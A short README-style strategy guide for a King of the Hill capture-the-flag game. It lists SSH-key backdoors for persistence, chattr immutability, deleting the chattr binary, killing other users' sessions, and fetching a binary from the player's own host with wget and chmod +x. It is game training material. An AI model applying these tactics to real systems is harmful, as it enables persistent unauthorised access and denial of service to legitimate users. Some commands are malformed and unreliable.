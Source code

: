 Stragegy 

`try to get into root and echo your name on king.txt` `this gives you contant point which is better than finding flag`
Scan 

`do rustscan than namp` 
 `rustscan gives quicker scan result`
 
 backdoor 

`always make a backdoor once you get into the shell` 
 `incase someone kill you on shell` `or` `shell got disconnected you have your backdoor`
 
 how to create backdoor

`generate ssh keygen` `ssh-keygen`
 
 defend you ssh key
 
 `if someone finds your ssh there is high chance that they delete your key` `so it's better if you defend your ssh key`
 
 `try to put your ssh on some unexpected place like /etc /usr`
 
 `make your ssh immutable so that no one can delete` `with following command`
 
      chattr -R +i .ssh
      
 `now you likely to do is to delete the chattr binary from /etc/bin so that no one can make it mutable again`
 
 *Ultimate Defences*
 
 `now you need to defend your position`
 
`try the same` 
`once you put your name on king.txt` `make it immutable` `with the command chattr just like above on ssh` 

    chattr +i /root/king.txt
    
`now delete the chattr again` 

or 

Run a while loop to echo your name on king.txt so that if any one even change the name then after a second that king.txt again contains your name again

    while true; do echo "prakashchand72" > king.txt ; done 
 
now you can start find other flag

    find \ -name flag.txt 2>/dev/null
    
sometime you can also kill other user from shell
    
`type`

    who

`this shows the ip and pty number`
`find which is your pty and seeing your ip` `and start kill others pty`

    ps aux | grep "pty"

or

    ps aux | grep "ssh"
    
`now get the proccess of id of other and kill them`

    kill {pid no here}
    
commmunicate with others

`you can also broadcast the message to others on the shell with the wall command`

    wall hello this is prakash
    
Breaking the Defence 

 `if you got situation when someone does` `chattr +i king.txt` `then you can uplaod your own chattr and make it mutable again`
 
 `on your local machine go to your /usr/bin and transfer the file of chattr to the machine`
 
`something like` 

    python3 -m http.server 8080
    
    wget ip:8080/chattr 
    
    chmod +x chattr 
    
 `now on your king.txt`
 
    chattr -i king.txt

*Unbreakable Defence own exploit*

   while true; do "prakashchand72 is the king"; done 
    
    
 cc@ prakashchand72 

